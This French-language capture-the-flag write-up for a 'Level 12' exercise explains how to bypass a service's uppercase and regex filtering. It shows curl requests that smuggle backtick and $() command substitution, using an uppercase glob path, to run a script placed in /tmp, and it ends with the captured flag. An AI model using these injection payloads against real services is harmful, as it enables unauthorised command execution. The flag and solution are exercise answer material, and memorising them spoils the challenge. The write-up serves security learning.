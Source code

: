 # Level 12

## Recherche
---

il va falloir bypass les 2 regles de triage, celle qui remplace toute les minuscules par des majuscules, et celle qui va remplacer ce qu'il y a avant par ce qu'il faut (.*@gmail.com va trouver toutes les adresses finissant par @gmail.com) le . representant n'importe quel char, et le * repete l'operation autant de fois que necessaire.


la string dans le @output est entre des crochets d'execution, il faut donc remplacer le $XX part ce qu'on veut

on cree un fichier GETFLAG dans tmp pour coder ce script 
chmod u+w .
vim /tmp/GETFLAG

#!/bin/bash
/bin/getflag > /tmp/flag

et on le rend utilisable
chmod 777 /tmp/GETFLAG

premier test vraiment pas concluant. pour bypass le premier il faut directement tout penser en majuscule, partout dans les ajouts (pas comme apres)
curl 192.168.56.101:4646/x=`/tmp/GETFLAG`

mais comme ca 
curl localhost:4646/?x=/GETFLAG

le but c'est de faire en sorte qu'il exec notre script

dans la solution ci apres, l'utilisation des quotes permet de limiter et de signifier qu'il s'agit d'un seul element, l'etoile permet quand a elle de faire l'utilisation de wildcard, le programme va chercher partout un quelque chose qui s'appelle GETFLAG, peut importe ou il est

curl localhost:4646/?x='`/*/GETFLAG`'
ou
curl localhost:4646/?x='$(/*/GETFLAG)'

pour finir, un cat /tmp/flag nous donnera le sesame

---
## Flag : g1qKMiRpXf53AWhDaU7FEkczr
---
## Sitographie

https://www.quennec.fr/trucs-astuces/syst%C3%A8mes/gnulinux/programmation-shell-sous-gnulinux/les-commandes-filtres/traitement-de-donn%C3%A9es/transformation-de-caract%C3%A8res-tr

https://unix.stackexchange.com/questions/583882/understanding-a-sed-command-sed-s-s-s-g

https://effective-shell.com/part-6-advanced-techniques/understanding-shell-expansion/#pathname-expansion



